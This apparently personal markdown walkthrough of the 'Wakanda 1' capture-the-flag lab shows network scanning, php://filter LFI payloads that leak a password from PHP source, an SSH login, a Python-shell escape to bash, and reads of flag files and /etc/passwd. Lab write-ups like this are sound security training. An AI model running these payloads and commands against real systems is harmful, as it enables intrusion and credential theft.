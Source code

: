 # Wakanda 1


## [step 1] Finding Ip Address
> 
  nmap [nmap -sT 192.168.0.0/24]
  netdiscover -r 192.168.0.0/24
  arp-scan -l

## [step 2] Finding Port 
> nmap [nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.56.101]
  nikto [nikto -h 192.168.56.101]

## [step 3] Directory
> directory buster [dirb  192.168.156.101]
  nikto [nikto -h 192.168.56.101]

## [step 4] web pages analysis and decoding
> curl 
  curl -I 192.168.56.101/fr.php
  curl -I 192.168.56.101/index.php
### As there was this in line in source page :  <!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->
#### The commented HTML seems to suggest LFI vulnerability is present with the lang parameter.
#### So try this: 
> [http://192.168.56.101/index.php] this is homepage.So we'll try  LFI/RFI attack,using Wrappers.
Wrapper php://filter
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

> After [http://192.168.56.101/index.php?lang=php://filter/convert.base64-encode/resource=index]
there are  encoded words.

> curl http://192.168.56.101/index.php?lang=php://filter/convert.base64-encode/resource=index | head -n 1 | base64 -d
We'll get php code in which there is password.

## [Step 5] ssh
> try login through ssh
> ssh -p3333 mamadou@192.168.56.101

### we'll get a python shell after login

``` 
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug  3 15:53:29 2018 from 192.168.56.1
Python 2.7.9 (default, Jun 29 2016, 13:08:31) 
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```

> try to get bash shell by python command : [>>> import os; os.system("/bin/bash")
]
```
mamadou@Wakanda1:~$ ls
flag1.txt
mamadou@Wakanda1:~$ cat flag.txt
cat: flag.txt: No such file or directory
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
mamadou@Wakanda1:~$ ls
flag1.txt
mamadou@Wakanda1:~$ ls -la
total 24
drwxr-xr-x 2 mamadou mamadou 4096 Aug  5 02:24 .
drwxr-xr-x 4 root    root    4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root    root       9 Aug  5 02:24 .bash_history -> /dev/null
-rw-r--r-- 1 mamadou mamadou  220 Aug  1 13:15 .bash_logout
-rw-r--r-- 1 mamadou mamadou 3515 Aug  1 13:15 .bashrc
-rw-r--r-- 1 mamadou mamadou   41 Aug  1 15:52 flag1.txt
-rw-r--r-- 1 mamadou mamadou  675 Aug  1 13:15 .profile
mamadou@Wakanda1:~$ pwd
/home/mamadou
```
```
mamadou@Wakanda1:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:107:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mamadou:x:1000:1000:Mamadou,,,,Developper:/home/mamadou:/usr/bin/python
devops:x:1001:1002:,,,:/home/devops:/bin/bash
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
mamadou@Wakanda1:~$ locate flag2.txt
/home/devops/flag2.txt
mamadou@Wakanda1:~$ cat /home/devops/flag2.txt
cat: /home/devops/flag2.txt: Permission denied
mamadou@Wakanda1:~$ ls -al /home/devops/
total 24
drwxr-xr-x 2 devops developer 4096 Aug  5 02:25 .
drwxr-xr-x 4 root   root      4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root   root         9 Aug  5 02:25 .bash_history -> /dev/null
-rw-r--r-- 1 devops developer  220 Aug  1 15:23 .bash_logout
-rw-r--r-- 1 devops developer 3515 Aug  1 15:23 .bashrc
-rw-r----- 1 devops developer   42 Aug  1 15:57 flag2.txt
-rw-r--r-- 1 devops developer  675 Aug  1 15:23 .profile
mamadou@Wakanda1:~$ id
uid=1000(mamadou) gid=1000(mamadou) groups=1000(mamadou)
mamadou@Wakanda1:~$ 
```




